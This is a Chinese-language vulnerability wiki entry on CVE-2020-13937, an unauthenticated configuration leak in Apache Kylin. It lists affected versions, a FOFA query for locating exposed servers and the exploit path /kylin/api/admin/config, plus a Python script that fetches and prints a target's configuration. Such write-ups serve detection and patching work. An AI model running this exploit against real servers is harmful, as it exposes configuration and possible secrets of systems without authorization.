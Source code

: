 ```yaml
---
title: Apache Kylin 未授权配置泄露 CVE-2020-13937
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web服务器漏洞
 - Apache
---
```


# Apache Kylin的未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息。

### FOFA

> [!NOTE]
>
> app="APACHE-kylin"

## 漏洞影响

> [!NOTE]
>
> Apahche Kylin 2.x.x
>
> Apahche Kylin <= 3.1.0
>
> Apahche Kylin 4.0.0-alpha

## 漏洞复现

根据漏洞情报

![](/img/20210924013721329109.png)

漏洞利用POC为  http://xxx.xxx.xxx.xxx/kylin/api/admin/config

![](/img/20210924013721571696.png)

## 漏洞检测POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Kylin 2.x.x <= 3.1.0 Kylin 4.0.0-alpha            \033[0m')
    print('+  \033[36m使用格式: python3 cve-2019-13937.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/kylin/api/admin/config"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "config" in response.text:
            print("\033[32m[o] 存在Apache Kylin的未授权配置泄露\n[o] 响应为:\n\033[0m",response.text)
        else:
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](/img/20210924013722038456.png)

##  Goby && POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Apache_Kylin_Unauthorized_configuration_disclosure.json

![](/img/20210924013723383755.png)

### 参考

[CVE-2020-13937|Apache Kylin的未授权配置泄露漏洞，腾讯安全全面支持检测](https://s.tencent.com/research/bsafe/1156.html)